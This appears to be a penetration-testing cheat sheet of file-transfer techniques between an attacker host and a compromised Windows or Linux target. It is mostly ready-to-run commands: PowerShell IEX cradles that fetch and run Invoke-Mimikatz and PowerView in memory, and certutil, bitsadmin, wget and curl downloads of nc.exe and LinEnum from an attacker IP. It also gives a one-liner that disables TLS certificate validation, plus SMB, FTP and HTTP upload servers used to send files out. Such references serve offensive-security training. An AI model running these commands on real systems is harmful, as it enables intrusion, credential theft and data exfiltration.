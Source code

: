 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<IP>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://<IP>/nc.exe` | Download a file using Certutil |
| `wget http://<IP>/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh http://<IP>/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<IP>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@<IP>:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`. |

> Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:  
> `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

# With SMB

create server
`impacket-smbserver -smb2support share .`

transfer  
`copy \\192.168.220.133\share\nc.exe`

New versions of Windows block unauthenticated guest access  

Create the SMB Server with a Username and Password  
`impacket-smbserver -smb2support share  . -user test -password test`  

Mount the SMB Server with Username and Password  
`net use n: \\192.168.220.133\share /user:test test`  
`copy n:\nc.exe`

# With FTP

Setting up a Python3 FTP Server  
`python3 -m pyftpdlib --port 21`

Transfering Files from an FTP Server Using PowerShell  
`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

FTP Uploads  
`sudo python3 -m pyftpdlib --port 21 --write`  

PowerShell Upload File  
`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

# Python - uploadserver
`python3 -m uploadserver`

and put file  
`curl --form "file=@text.log" http://127.0.0.1:8000/upload`

# Python WebDav
`sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

# Connecting to the Webdav Share
`dir \\192.168.49.128\DavWWWRoot`

